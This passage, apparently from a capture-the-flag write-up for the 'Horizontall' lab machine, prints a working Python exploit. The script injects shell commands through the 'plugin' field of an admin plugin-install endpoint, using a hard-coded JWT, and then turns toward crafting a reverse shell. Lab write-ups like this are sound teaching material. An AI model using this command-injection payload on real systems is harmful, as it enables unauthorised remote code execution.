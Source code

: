 ### Remote Code Execution (RCE) (Authenticated) & User Flag

While working with [the RCE exploit](https://www.exploit-db.com/exploits/50238) I also again encountered some Python weirdness. Mostly regarding the `JWT` token. I was used to it at this point, so I just duct-taped bits and pieces of both RCE exploits, as they seemed to target the same `/admin/plugins/install` path, hard-coded in the `JWT` and target `URL`. At the end, it looked like this:

```python
import requests
from cmd import Cmd

class Terminal(Cmd):
    prompt = "$> "
    def default(self, args):
        code_exec(args)

def code_exec(cmd):
    global jwt, url
    jwt = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzOTk4MTkwLCJleHAiOjE2NDY1OTAxOTB9.fw_8CAfFHcZbgprQaa9LTA771Vz0UI6WyvgvynMKYyI"
    url = "http://api-prod.horizontall.htb"
    headers = {"Authorization" : f"Bearer {jwt}"}
    data = {"plugin" : f"documentation && $({cmd})",
            "port" : "1337"}
    out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
    print(out.text)

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()
```

While the exploit did seem to do something, it would always respond with a "Bad Request" HTTP reply, instead of the output of `id` or whatever else I tried to execute. I then tried to give myself a proper reverse shell. I used [RevShells](https://www.revshells.com/) to help me out crafting the command itself. 
